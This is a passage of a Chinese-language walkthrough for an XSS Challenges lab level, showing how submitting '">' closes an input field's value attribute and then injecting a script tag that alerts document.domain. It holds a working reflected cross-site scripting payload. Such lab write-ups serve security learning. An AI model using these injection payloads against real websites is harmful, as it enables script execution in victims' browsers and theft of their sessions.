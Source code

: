 提交参数

```
">hello
```

查看回显

```
<input type="text" name="p1" maxlength="15" size="30" value="">
hello"> 
```

![查看回显](./../../../../image/XSS%20Challenges/%E6%9F%A5%E7%9C%8B%E5%9B%9E%E6%98%BE.png)

> 发现成功闭合，"> 生效
>
> 二者都可以使用

尝试提交 js 代码

```
"><script>alert(document.domain);</script>
```
